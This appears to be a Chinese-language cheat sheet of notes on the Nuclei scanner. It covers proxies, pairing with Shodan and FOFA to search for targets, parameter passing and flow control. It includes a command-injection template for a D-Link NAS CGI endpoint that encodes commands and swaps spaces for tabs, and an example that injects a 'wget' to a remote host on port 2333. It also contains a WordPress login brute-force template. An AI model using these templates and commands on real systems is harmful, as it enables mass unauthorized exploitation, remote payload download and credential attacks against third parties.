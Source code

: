 # Nuclei

### 代理使用


```
-p, -proxy string[]        list of http/socks5 proxy to use (comma separated or file input)
```

eg:

```
nuclei -l xxx.txt -t xxx.yaml -p http://192.168.1.1:8080
```


### 与shodan的联动

```
export SHODAN_API_KEY=xxx
nuclei -id 'CVE-2021-26855' -uq 'vuln:CVE-2021-26855' -ue shodan
```

```
  metadata:
    verified: "true"
    max-request: 1
    shodan-query: http.title:"Mystic Stealer"
```

### 与fofa的联动

```
export FOFA_EMAIL=xxx
export FOFA_KEY=xxx
```

```
  metadata:
    max-request: 1
    vendor: cisco
    product: unified_computing_system
    shodan-query:
      - http.title:"Cisco UCS KVM Direct"
      - http.title:"cisco ucs kvm direct"
    fofa-query: title="cisco ucs kvm direct"
```

### 有用的命令

##### 代理加网络搜索引擎

```
nuclei -id CVE-2024-8877 -stats -uc -ul 3000 -ue shodan -p socks5://127.0.0.1:1080
```

##### 参数传递

```
...
  - method: GET
    path:
      - "{{BaseURL}}/cgi-bin/nas_sharing.cgi?user=mydlinkBRionyg&passwd=YWJjMTIzNDVjYmE&cmd=15&system={{base64(replace('{{cmd}}',' ','\x09'))}}"
...
```

```
 nuclei -t ./template.yaml -var cmd="wget xxxxxxxxxxx:2333" -u http://xxxxxxxx:80
```

### 有用的函数

- replace

将空格替换为tab符号

```
"{{replace('wget 127.0.0.1:2333 -O /tmp/aaaaa',' ','\x09')}}"
```

### 条件执行

```
flow: http(1) && http(2)
```

```
id: wordpress-bruteforce

info:
  name: WordPress Login Bruteforce
  author: pdteam
  severity: high

flow: http(1) && http(2)

http:
  - method: GET
    path:
      - "{{BaseURL}}/wp-login.php"

    matchers:
      - type: word
        words:
          - "WordPress"

  - method: POST
    path:
      - "{{BaseURL}}/wp-login.php"

    body: |
        log={{username}}&pwd={{password}}&wp-submit=Log+In

    attack: clusterbomb 
    payloads:
      users: helpers/wordlists/wp-users.txt
      passwords: helpers/wordlists/wp-passwords.txt

    matchers:
      - type: dsl
        dsl:
          - status_code == 302
          - contains_all(header, "/wp-admin","wordpress_logged_in")
        condition: and
```

we are first checking if target is a wordpress site and then executing bruteforce requests. 

# 资料

Running Nuclei

https://docs.projectdiscovery.io/tools/nuclei/running#scan-on-internet-database

nuclei模板编写总结

https://www.cnblogs.com/backlion/p/18326684

学习笔记-nuclei

https://www.cnblogs.com/haidragon/p/16852363.html

Introduction to Nuclei Templates

https://docs.projectdiscovery.io/templates/introduction

Basic HTTP Protocol

https://docs.projectdiscovery.io/templates/protocols/http/basic-http

nuclei中文readme

https://github.com/projectdiscovery/nuclei/blob/dev/README_CN.md

参数传递

https://docs.projectdiscovery.io/cloud/scanning/parameters

Nuclei中使用其他语言

https://docs.projectdiscovery.io/templates/protocols/code

流程控制

https://docs.projectdiscovery.io/templates/protocols/flow
